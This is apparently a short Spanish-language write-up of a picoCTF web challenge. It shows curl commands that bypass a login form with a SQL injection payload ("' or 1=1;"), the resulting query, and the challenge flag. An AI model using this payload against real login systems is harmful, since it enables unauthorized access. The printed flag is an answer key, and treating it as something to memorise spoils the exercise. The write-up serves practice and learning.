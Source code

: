 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Solución 
```
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php
<h1>Login failed.</h1>                                                                             
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=' or 1=1;&debug=1"                         
<pre>username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>                                                                             
┌──(kali㉿kali)-[~]
└─$ 

```

## Notas adicionales

## Referencias
https://www.w3schools.com/sql/sql_injection.asp Explica lo que es la injection sql
